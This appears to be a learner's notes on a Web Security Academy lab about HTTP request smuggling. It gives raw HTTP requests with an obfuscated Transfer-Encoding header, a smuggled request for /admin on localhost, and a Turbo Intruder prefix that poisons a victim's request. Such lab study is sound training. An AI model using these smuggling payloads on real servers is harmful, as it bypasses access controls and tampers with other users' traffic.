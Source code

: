 3
x=y
5f
GET /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


---

POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked

3
x=y
0

---

#### the response:


`                   </header>
                    Admin interface only available to local users
                </div>`
                
---

so smuggle a GET request for admin on local host
GET /admin HTTP/1.1
Host: localhost

--
##### turbo truder now:

    # This will prefix the victim's request. Edit it to achieve the desired effect.
    prefix = '''GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1'''

---
 